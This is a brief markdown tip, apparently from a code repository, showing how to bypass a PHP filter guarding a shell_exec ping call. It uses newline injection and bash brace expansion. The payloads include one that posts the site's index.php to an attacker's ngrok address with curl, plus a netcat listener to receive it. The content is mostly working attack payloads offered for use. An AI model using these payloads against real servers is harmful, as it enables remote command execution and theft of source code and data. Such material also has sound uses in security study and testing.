 # Blind command injection filter bypass
If we had a filter similar to this:
```
$domain = @preg_replace("/[^\S\r\n]/","",@preg_replace("/[\\\|;$`&<>]/", "", trim($_POST["domain"])));
$response = @shell_exec("timeout 5 bash -c 'ping -c 3 ".$domain."'");

```

We can then use brace expansion to bypass space and execute our command.

EX:
payload :``8.8.8.8%0A{curl,127.0.0.1:9999}``

send file contents as body entity using cURL.

payload: ``8.8.8.8%0A{curl,--data,"@index.php",[your ngrok]}

Then, to capture requests, use netcat: ``nc -nlvp 9999``

![img](./img/1.png)
